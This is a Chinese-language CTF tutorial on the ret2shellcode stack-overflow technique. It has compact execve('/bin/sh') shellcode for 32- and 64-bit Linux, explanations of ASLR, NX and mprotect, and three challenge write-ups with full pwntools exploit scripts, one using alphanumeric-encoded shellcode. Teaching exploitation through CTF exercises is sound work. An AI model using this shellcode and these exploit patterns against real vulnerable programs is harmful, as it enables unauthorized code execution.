# ret2shellcode

------

> 栈溢出漏洞的一种利用方式，通过向可写入可执行内存写入 shellcode，并利用栈溢出漏洞将返回地址覆盖为shellcode 的首地址加以执行。

## 原理

在讲原理之前我们先讲一下 shellcode 是什么？

### shellcode是什么？

shellcode 是一种小型程序代码，通常是以机器码的形式存在，被用于在目标系统上执行特定的服务。

一般来说在 CTF 中最常见的形式就是一段可以获得 shell 的机器码。

### shellcode的特征和利用

1. 自包含性

shellcode 通常是自包含的，这意味着它不依赖于外部的库或资源，能够独立运行。

1. 编写方式

shellcode 通常是用汇编语言编写的，然后汇编成机器码，这是因为机器码可以直接在目标系统的处理器上执行，并且具有很高的执行效率。

1. 常见用途

在 CTF 中主要用途为获得一个 shell。

## shellcode代码

接下来将一下简单的 shellcode 编写和缩短技巧。

### 32位

shellcode 我们是可以使用 pwntools 进行生成的。

但是在限制长度的题目中，由于 pwntools 生成的 shellcode 长度过长所以并不能成功使用。

所以我们可以通过手写来缩短 shellcode。

- pwntools生成（32位44字节）

```
PYTHON - 2 lines
context.arch = elf.arch
shellcode = asm(shellcraft.sh())
```

- 手写汇编 shell（20字节）

```
PYTHON - 11 lines
#20字节
shellcode="""
push 0x68732f2f
push 0x6e69622f
xchg ebx,esp
xor ecx,ecx
xor eax,eax
mov al,0xb
cdq
int 0x80
"""
```

- 无`\x00`截断版（21字节）

```
C - 1 lines
x6ax0bx58x99x52x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x31xc9xcdx80
```

- `scanf`可读取版（41字节）

```
C - 1 lines
xebx1bx5ex89xf3x89xf7x83xc7x07x29xc0xaax89xf9x89xf0xabx89xfax29xc0xabxb0x08x04x03xcdx80xe8xe0xffxffxff/bin/sh
```

### 64位

Linux x64 shellcode

- pwntools生成（64位48字节）

```
PYTHON - 2 lines
context.arch = elf.arch
shellcode = asm(shellcraft.sh())
```

- 手写汇编 shell（20字节）

```
PYTHON - 11 lines
#20字节
shellcode="""
xor esi,esi
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
cdq
syscall
"""
```

- 无 `x00` 截断且`scanf`可读版（22字节）

```
C - 1 lines
x48x31xf6x56x48xbfx2fx62x69x6ex2fx2fx73x68x57x54x5fxb0x3bx99x0fx05
```

## ASLR保护

ASLR 是一个 Linux 系统保护机制，有效的防止了很多漏洞。

> ASLR 是操作系统的功能选项，在 ELF 文件加载到内存的时候发动，会影响到栈、动态链接库、堆的基址。开启后，每次程序加载使栈、动态链接库、堆的基地址都会随机化。

ASLR有三种状态

`/proc/sys/kernel/randomize_va_space`的值决定着ASLR的状态

1. 值为0，地址随机化关闭
2. 值为1，随机化stack、mmap映射、vdso
3. 值为2，随机化stack、mmap映射、vdso、heap（默认选项）

早期人们将 shellcode 写入缓冲区执行，但是因为 ASLR 保护的出现导致这种方法利用难度变高。

倒不是不可以将 shellcode 写入缓冲区，只不过泄露栈地址难度很高，与其花力气泄露栈地址向栈上写入 shellcode 还不如直接向数据段写入 shellcode。

## NX保护

NX 保护机制的全写为 NO-Execute（不可执行），NX 保护的原理是将数据所在内存页标识为不可执行，当程序被劫持到数据页（不可执行内存）时，程序会尝试在数据页面上执行指令，因为数据页被标记为不可执行，此时 CPU 就会抛出异常，而不是去执行数据。

> NX 保护的出现导致向数据段写入 shellcode 并执行的方法也不可行了。

一般 ret2shellcode 的前提是没有 NX 保护，但是即便存在 NX 保护在一定条件下也有办法 shellcode。

这里介绍一个可以修改内存权限的函数。

> `mprotect`函数，可以改写内存权限

- 第一个参数：开始地址（为了页对齐，该地址必须是一个内存页的起始地址，即页大小整数倍，1页=4k=0x1000）
- 第二个参数：指定长度（长度也应该是页的整倍数，即0x1000的整数倍）
- 第三个参数：指定属性（r=4（读）、w=2（写）、x=1（执行））

如果程序中存在这个函数就可以调用这个函数修改内存权限实现 ret2shellcode。

## 例题

### 限制长度shellcode

> 例题：[GDOUCTF 2023]Shellcode

- 分析

先查保护，没有栈溢出保护和PIE保护



IDA反编译分析，分析`main`函数

```
C - 15 lines
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  mprotect((&stdout & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7);
  puts("Please.");
  read(0, &name, 0x25uLL);
  puts("Nice to meet you.");
  puts("Let's start!");
  read(0, buf, 0x40uLL);
  return 0;
}
```

发现关键函数`mprotect`修改了内存权限为可读可写可执行。

我们可以通过调试查看一下修改内存权限的位置。



查看修改权限位置为`0x601000~0x602000`，查看后发现`read`函数第二个参数的`name`的地址正好位于地址区间中。

并且程序中第二个`read`函数存在栈溢出，所以我们可以通过先将 shellcode 写入`name`，然后通过栈溢出进行ret2shellcode。

但是`name`的地址空间长度为`0x27`也就是`39`，我们`pwntools`默认生成是的 shellcode 为 48 字节，所以我们需要手写shellcode。

- exp

```
PYTHON - 28 lines
#!/usr/bin/env python3
from pwncli import *
cli_script()


io: tube = gift.io
elf: ELF = gift.elf

shellcode='''
xor rsi,rsi
push rsi
mov rdi,0x68732f2f6e69622f
push rdi
push rsp
pop rdi
push 0x3b
pop rax
cdq
syscall
'''
pay1=asm(shellcode)
print(len(pay1))
sl(pay1)

pay2=b'a'*18+p64(0x6010a0)
sl(pay2)

ia()
```

### shellcode编码

> 例题：mrctf2020_shellcode_revenge

- 分析

查保护发现为 64 位程序，没有 NX 保护和栈溢出保护。



运行程序分析，接收一个输入，根据题目名称判断这题应该是 ret2shellcode。



ida 分析

`write`输出提示字符串，然后`read`将输入读取到缓冲区。



如果用户输入长度大于 0 则跳转到`l0c_11AC`，否则跳转到`locret_1254`，正常输入肯定会跳到`l0c_11AC`。



程序跳转到`l0c_11AC`然后将`rbp-4`赋值为 0 ，然后跳转到`loc_123A`。



如果 0 < 输入字符串的长度则跳转`loc_11B8`，否则将执行输入内容，这里就是可以进行 shellcode 的地方了。

这里的代码是将我们输入的内容逐个字节比较是否是可见字符。



这里我们需要通过 alpha3 这个工具将 shellcode 编码为可见字符。

> alpha3： https://github.com/TaQini/alpha3.git

我们可以用工具将上面的 shellcode 编码为可见字符形式。

将 shellcode 编码写入文件后，通过调用 alpha3 工具进行编码。

```
SHELL - 1 lines
python3 ALPHA3.py x64 ascii mixedcase rax --input=shellcode文件 > 输出文件
```

> 注意：alpha3 生成 shellcode 时如果设置`rax`那么跳转 shellcode 时`rax`必须为 shellcode 的地址。设置为其他寄存器同理。

- exp

```
PYTHON - 12 lines
#!/usr/bin/env python3
from pwncli import *
cli_script()

io: tube = gift.io
elf: ELF = gift.elf

shellcode="Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"
r()
s(shellcode)

ia()
```

### 调用mprotect修改内存权限

> 例题：get_started_3dsctf_2016

- 分析

checksec 查保护，程序为 32 位，没有栈溢出保护和地址随机化保护。



分析代码逻辑存在栈溢出。

```
C - 8 lines
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[56]; // [esp+4h] [ebp-38h] BYREF

  printf("Qual a palavrinha magica? ", v4[0]);
  gets(v4);
  return 0;
}
```

发现程序为静态编译，即`ret2libc`是不可行的，`.text`段也没有`shell`函数即`ret2text`也不可行。



但是我们在函数窗口，发现了`mprotect`函数。

所以我们可以通过栈溢出调用`mprotect`函数修改内存权限为可读可写可执行来进行`shellcode`。



gdb 查看内存映射，查看数据段地址。



可以看到起始地址`0x80ea000`到`0x80ec000`为数据段地址

回顾一下，`mprotect`的第一个参数的内存区间必须包含整个内存页（4K）。区间开始的地址 start 必须是一个内存页的起始地址，并且区间长度 len 必须是页大小的整数倍。

由于要求的地址空间为 4K 的整数倍，因此后三位为 000， 即`mem_addr = 0x80ea000`或`0x80eb000`、`0x80ec000`都可以。

- 布栈



执行`read`函数后会将标准输入输入的内容写入到指定地址。

将 payload 发送之后再发送 shellcode 即可。

查找`gadget`，选中一个三次`pop`的`gadget`进行平栈

```
SHELL - 20 lines
```

根据思路构造 exp。

- exp

```
PYTHON - 32 lines
#!/usr/bin/python3
from pwncli import *

cli_script()

pwnfile="./get_started_3dsctf_2016"
io=gift["io"]
elf=gift["elf"]
context.arch="i386"
mprotect_addr=elf.sym.mprotect
read=elf.sym.read

mem_addr=0x080Ec000
mem_size=0x1000
mem_proc=0x7
pop_addr=0x0804951d

payload=b"A"*0x38+p32(mprotect_addr)
payload+=p32(pop_addr)
payload+=p32(mem_addr)+p32(mem_size)+p32(mem_proc)

payload+=p32(read)
payload+=p32(pop_addr)
payload+=p32(0)+p32(mem_addr)+p32(0x100)
payload+=p32(mem_addr)

sl(payload)

pay=b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
sl(pay)

ia()
```